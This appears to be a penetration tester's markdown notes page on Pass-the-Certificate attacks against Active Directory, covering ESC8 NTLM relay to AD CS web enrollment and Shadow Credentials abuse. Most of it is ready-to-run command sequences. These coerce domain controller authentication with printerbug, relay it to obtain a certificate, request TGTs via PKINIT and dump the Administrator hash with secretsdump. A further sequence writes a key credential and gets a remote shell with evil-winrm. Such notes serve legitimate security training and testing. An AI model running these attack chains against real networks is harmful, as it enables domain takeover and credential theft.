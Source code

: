 [PKINIT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pkca/d0cf1763-3541-4008-a75f-a577fa5e8c5b), short for `Public Key Cryptography for Initial Authentication`, is an extension of the Kerberos protocol that enables the use of public key cryptography during the initial authentication exchange. It is typically used to support user logons via smart cards

`Pass-the-Certificate` refers to the technique of using X.509 certificates to successfully obtain `Ticket Granting Tickets (TGTs)` Used primary alongside [attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf), as well as in [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attacks.

PKINIT not available? See [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/)

## AC CS NTLM Relay Attack (ESC8)

NTLM relay attack targeting ADCS HTTP endpoints.

A CA configured to allow web enrollment typically hosts from /CertSrv

Requirements:
	Exposed CA
	Printer Spooler service running (forced auth method via [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py))

Attack Demonstration
```bash
# Enumerate certificate template (possibly skip...)
certipy find -u 'user' -p 'pass' -target <target> -text -stdout -vulnerable

# Listen for inbound connections and relay to web enrollment service
impacket-ntlmrelayx -t http://<ip>/certsrv/certfnsh.asp --adcs -smb2support --template <certificate_template> # Default -- "KerberosAuthentication"

# Wait for victims to attempt auth against their machine
OR
# Force machine accounts to auth (Print Spooler service must be running)
python3 printerbug.py <DOAMIN>/<user>:"<password>"@<DC_ip> <attacker_ip>
 
# Catch auth request output and certificate issued for the DC

# Install gettgtpkinit.py and requirements
git clone https://github.com/dirkjanm/PKINITtools.git
cd PKINITtools
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git

# Obtain TGT as DC01$ and DCSync
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip <dc_ip> '<domain>/dc01$' /tmp/dc.ccache
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip <dc_ip> -just-dc-user Administrator '<domain>/DC01$'@DC01.<domain>
```

## Shadow Credentials (msDS-KeyCredentialLink)
[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user. In BloodHound, the `AddKeyCredentialLink` edge indicates that one user has write permissions over another user's `msDS-KeyCredentialLink` attribute, allowing them to take control of that user.

Attack Demonstration
```bash
# Generate x.509 cert and write public key to victim user
pywhisker --dc-ip <DC_ip> -d <domain> -u <user> -p '<password>' --target <VICTIM_user> --action add   # make note of .pfx file created and password

# Aquire TGT as victim user
python3 gettgtpkinit.py -cert-pfx ../<file.pfx> -pfx-pass '<pfx_password>' -dc-ip <DC_ip> <DOMAIN>/<user> /tmp/<user.ccache>

# pass the ticket
export KRB5CCNAME=/tmp/<user.ccache>
klist   # verify successfil import

# Abuse (example is exil-winrm)
evil-winrm -i <dc.hostname>.<domain> -r <domain>   # See PtT notes for full setup
```